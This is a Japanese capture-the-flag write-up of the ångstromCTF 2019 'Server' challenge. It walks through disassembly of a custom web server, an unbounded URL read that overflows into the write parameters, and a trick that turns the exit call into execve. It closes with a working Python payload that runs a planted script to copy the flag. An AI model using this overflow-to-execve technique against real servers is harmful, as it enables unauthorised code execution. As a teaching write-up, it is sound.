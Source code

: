 // date: 2019-04-25

## ångstromCTF 2019 -「Server (180pts)」之解き方

### はじめに
2019年の4月、[NekochanNano!](https://2019.angstromctf.com/teams/3383)というチームの一員として [ångstromCTF](https://twitter.com/hashtag/angstromctf) に参加させて頂きました。最後に1540ポイントを集めることが出来て、59位で終わりました。
![solved_challenges.png](.res/solved_challenges.png)

今回は、特に気に入った問題の「Server」の解き方を解説して行きたいと思います。

### 問題記載
```
Server - 180 points

Check out my new website, powered by my own custom web server!
```
ご丁寧に、ウェブサイトのリンクとELFバイナリが渡されます。こちらはウェブサイトのホームページです。

![website](.res/server_1.png)

### 解析
早速ですが、とりあえずobjdumpに投げてみましょう。ディスアセンブルしてみたら、すぐに気づくのはlibcの無さ。このプログラムは全て、syscall以外にライブラリーを使わずに出来ているようです。

最初にいろんなsyscallを呼び出して、ソケットを保留して、バインドします。
```
401086:	48 31 c0             	xor    rax,rax
401089:	48 be 10 20 40 00 00 	movabs rsi,0x402010
401090:	00 00 00
401093:	ba 04 00 00 00       	mov    edx,0x4
401098:	0f 05                	syscall
```
それから第零syscall（０から始まるので）`read`で標準入力から４バイトを`0x402010`に読み込んで、
```
40109a:	48 ff ce             	dec    rsi
40109d:	48 ff c6             	inc    rsi
4010a0:	48 31 c0             	xor    rax,rax
4010a3:	48 31 d2             	xor    rdx,rdx
4010a6:	48 ff c2             	inc    rdx
4010a9:	0f 05                	syscall
4010ab:	80 3e 20             	cmp    BYTE PTR [rsi],0x20
4010ae:	74 02                	je     0x4010b2
4010b0:	eb eb                	jmp    0x40109d
```
`0x402010`を再利用して（さっきの４バイトを上書き）、また読み込みます。スペース文字（`0x20`）が来るまで読み込みを続けますが、`0x402010`に書き込んだバイトを数えないため、いくらも長いバイト流れを渡しても書き込んでしまいます（そこが危ないですね）。

```
4010b5:	48 be b1 28 40 00 00 	movabs rsi,0x4028b1
4010bc:	00 00 00
4010bf:	ba 00 08 00 00       	mov    edx,0x800
4010c4:	0f 05                	syscall
```
やっとスペース文字が来たら`0x4010b2`にジャンプして、今度`0x4028b1`を読み込み先としてまた「read」を行いますが、今回は読み込みサイズが`0x800`に過ぎないようにしています。

もう気づいてる方も居るかと思いますが、最初のバッファーがおそらくURLで２つ目がペイロード（HTTPヘッダーとコンテント）であるみたいです。そしてペイロードが`0x800`バイトに過ぎないように制限されてるのに、URLにはそんな制限がなく、`0x800`バイト以上を読み込めば、直後のメモリが単に上書きされてしまいます。

さて、続きを読みましょう。
```
401135:	48 8b 3c 25 10 28 40 	mov    rdi,QWORD PTR ds:0x402810
40113c:	00
40113d:	b8 01 00 00 00       	mov    eax,0x1
401142:	48 be 20 28 40 00 00 	movabs rsi,0x402820
401149:	00 00 00
40114c:	48 8b 14 25 18 28 40 	mov    rdx,QWORD PTR ds:0x402818
401153:	00
401154:	0f 05                	syscall
```

`mov eax, 0x1`の部分から、第一syscall `write`を用意していることがわかります。この「[検索可能 Linux Syscall 目録](https://filippo.io/linux-syscall-table/)」によると、メモリから`rdi`にコピーしている値が`fd`(ファイル記述子)で、`rsi`に`buf`（出力元）、そして`rdx`で出力サイズに指定します。このスニペットをC言語に訳してみるとこのようになるでしょう:
```C
uint fd = 0; // STDOUT
char *buf = "welcome to my web server! as you can see it's incredibly fast and impossible to exploit!";
size_t count = 88;
write(fd, buf, count);
```
このコードを実行した後に、実際に出力したバイト数が`rax`レジスタに保存されます。

最後に、第三syscall「exit」を呼び出します、、、
```
401156:	48 29 d0             	sub    rax,rdx
401159:	48 83 c0 03          	add    rax,0x3
40115d:	48 31 d2             	xor    rdx,rdx
401160:	0f 05                	syscall
```
が！ちょっと待って。何を計算しているんでしょうか？まずは`rax`（出力されたバイト数）から`rdx`（出力サイズ）を引く。その結果は必ず０になるはずですね。してから結果に３を足して（`rax`＝３）、syscallを実行する。なるほど、そうやってヌル化するんだ。確か`mov eax, 0x3`よりアセンブリ命令が短い（movを使えば`0x3`なのに`0x0000000000000003`となり、命令がかなり長くなってしまうらしいです）。

### 作戦

ごめんなさい、嘘を付きました。

実は`sub rax, rdx`の結果が０でない場合もあります。もし、`rdx`がとんでもない大きい値であれば、プロセスのメモリをすべて出しても出力バイト数が合わせられないのです。すなわち引き算の効果が０でなくなります。

試して`rdx`を`0xffffffffffffffff`にしてみたら、`0x1000`バイトが出されました（`rax = 0x1000`）。

数学能力がゼロなのでちゃんと計算できないけど、適当にいろんな値を試して、`0xffffffffffffffbf`にすれば`rax`が`0x3b`（10進数では59）になることを確かめることが出来ました。ちなみに第59 syscallが任意プログラムを実行してくれる`execve`であります。

そう、`rdx`を`0xffffffffffffffbf`にすると、`execve`が呼び出されます。また「[検索可能 Linux Syscall 目録](https://filippo.io/linux-syscall-table/)」にて`execve`の引数を確認しましょう。

![syscall 59](.res/server_2.png)

さて、エクスプロイトを考えましょう。上の脆弱性を利用して、任意コマンド実行または任意プログラム実行が出来るようになりました。ですが、例えばもしシェルを実行してしまえば、出力が標準出力に送信され、こちらソケット側からは見えません。ですから、サーバーの反応を観測せずに行えるエクスプロイトが必要となります。

チャレンジサーバーにアクセス出来たので、`/tmp`ディレクトリにシェルスクリプトを適当に置いて、serverからそれを実行することに決めました。こちらはスクリプトです。
```sh
#!/bin/bash

echo "フラグでしゅにゃん！(=^・・^=)"
cat flag.txt > /tmp/nekochannano/server.flag.txt
echo ""
```

そしてserverプロセスのユーザーが書き込めるためにファイル属性を設定して起きます。
```
$ cd /tmp/nekochannano
$ touch server.flag.txt
$ chmod 0666 server.flag.txt
```

エクスプロイトを書く前に、目指しているメモリの状況を図にしました。

通常に、メモリの状況がこのようになります：
```
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402010 |   00 00 00 00 00 00 00 00   | URLバッファー
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402810 |   00 00 00 00 00 00 00 00   | 出力バッファー
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402018 |   58 00 00 00 00 00 00 00   | writeサイズ
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402020 |   w  e  l  c  o  m  e       | メッセージ
| 0x402028 |   t  o     m  y     w  e    |
| 0x402030 |   b     s  e  r  v  e  r    |
| 0x402038 |   !  a  s     y  o  u       |
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
```

エクスプロイトして、このようにさせることを目指します。
```
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402010 |   61 61 61 61 61 61 61 61   | 'a' (804字)
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402810 |   28 28 40 00 00 00 00 00   | 実行ファイル名のポインタ
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402018 |   bf ff ff ff ff ff ff ff   | rdxに保存されて、raxから引かれる値
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402020 |   00 00 00 00 00 00 00 00   | rsiに保存されるargv(ヌル)
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402028 |   /  t  m  p  /  n  e  k    | 実行するファイル
| 0x402030 |   o  c  h  a  n  n  a  n    | /tmp/nekochannano/nyan.sh
| 0x402038 |   o  /  n  y  a  n  .  s    |
| 0x402040 |   h  00                     |
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
```

よし！これで準備が出来ました！さあ早速エクスプロイトを書きましょう！

## エクスプロイト！！

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

def payload():
    # HTTP リクエストを生成する
    output = ""
    output += "a" * 0x804                        # 0x40200c~0x402810までaを書き込む
    output += "\x28\x28\x40\x00\x00\x00\x00\x00" # 0x402810 $rdi 出力バッファー
    output += "\xbf\xff\xff\xff\xff\xff\xff\xff" # 0x402818 $rdx 出力サイズ
    output += "\x00\x00\x00\x00\x00\x00\x00\x00" # 0x402820 $rsi argv
    output += "/tmp/nekochannano/nyan.sh\x00"    # 0x402828 実行されるファイル
    output += " "
    return output

print payload()
```

そして実行！

![flag.txt](.res/server_3.png)

以上、[ångstromCTF](https://twitter.com/hashtag/angstromctf) 2019 之「Server」の解き方でした。
最後まで読んで頂きありがとうございました！
